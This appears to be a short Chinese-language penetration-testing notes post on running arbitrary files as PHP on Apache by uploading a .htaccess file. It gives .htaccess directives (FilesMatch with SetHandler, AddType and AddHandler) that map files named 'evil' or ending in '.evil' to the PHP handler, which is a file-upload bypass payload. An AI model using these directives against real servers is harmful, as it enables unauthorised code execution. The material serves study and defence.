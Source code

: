 ```yaml
---
layout: post
title: Apache2任意文件执行
data: 2020-01-13
categories: 
 - Notes
 - Notes-Execution
tags: 
 - Apache2
 - Execution
description:
excerpt_separator: ""
---
```


# 上传.htaccess文件

.htaccess文件作用于当前目录及其子目录，可以实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

这里主要记录一下通过上传.htaccess文件修改Apache的解析规则的方法，以实现将任意文件作为php文件执行。

## 利用前提

管理员需要设置Apache的AllowOerride指令，以使htaccess文件有效。

## 利用特征

当目标网站出现以下特征时，说明管理员允许了.htaccess文件的使用。

## 利用方法

1. 以下内容可以使Apache用PHP解析任意文件名包含`evil`字样的文件。

    ```
    <FilesMatch "evil">
    	SetHandler application/x-httpd-php
    </FilesMatch>
    ```

2. 以下任一内容可以使Apache用PHP解析任意后缀为`.evil`的文件。

    ```
    AddType application/x-httpd-php .evil
    ```

    ```
    AddHandler php5-script .evil
    ```

    ```
    AddHandler php7-script .evil
    ```

    